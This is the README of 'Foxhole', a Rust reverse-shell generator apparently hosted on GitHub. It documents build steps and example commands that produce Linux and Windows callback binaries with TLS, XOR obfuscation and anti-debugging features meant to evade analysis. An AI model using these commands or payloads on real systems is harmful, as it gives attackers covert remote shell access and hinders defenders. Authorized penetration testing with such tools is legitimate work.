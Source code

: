 # Foxhole

A stealthy, cross-platform reverse shell generator written in Rust.

## Features

- Cross-platform support (Linux and Windows)
- TLS encryption support
- XOR encryption for sensitive data
- Anti-debugging capabilities
- Connection retry with exponential backoff
- Customizable shell path
- Minimal and fast binaries
- Release mode compilation for smaller size

## Installation

```bash
git clone https://github.com/ArsCodeAmatoria/foxhole.git
cd foxhole
cargo build --release
```

## Usage

```bash
foxhole --ip <target_ip> --port <target_port> --os <linux|windows> [--shell <shell_path>] [--tls] [--anti-debug] --output <output_path>
```

### Command Line Arguments

- `--ip`: Target IP address or hostname
- `--port`: Target port number
- `--os`: Target operating system (linux or windows)
- `--shell`: Custom shell path (optional)
- `--tls`: Enable TLS encryption
- `--anti-debug`: Enable anti-debugging features
- `--output`: Output binary path

### Examples

Basic Linux reverse shell:
```bash
foxhole --ip 192.168.1.100 --port 4444 --os linux --output shell
```

Windows reverse shell with TLS and anti-debugging:
```bash
foxhole --ip example.com --port 443 --os windows --tls --anti-debug --output shell.exe
```

Custom shell path with all features:
```bash
foxhole --ip 192.168.1.100 --port 4444 --os linux --shell /bin/bash --tls --anti-debug --output shell
```

### Anti-Debugging Features

When enabled, the generated binary includes:
- Debugger detection for Windows and Linux
- Process monitoring for common debuggers (GDB, LLDB, IDA, etc.)
- Sleep detection to detect time manipulation
- Automatic termination if debugging is detected

### Connection Features

The generated binary includes:
- Automatic connection retry with exponential backoff
- Configurable retry parameters
- TLS support with proper error handling
- XOR encryption for sensitive data

## Requirements

- Rust toolchain (latest stable)
- `rustc` compiler
- For cross-compilation: `cross` (optional)

## Building for Different Platforms

### Linux to Windows Cross-Compilation

```bash
cross build --release --target x86_64-pc-windows-msvc
```

### Windows to Linux Cross-Compilation

```bash
cross build --release --target x86_64-unknown-linux-gnu
```

## Security Note

This tool is for educational and authorized testing purposes only. Unauthorized use on systems you don't own or have permission to test is illegal. 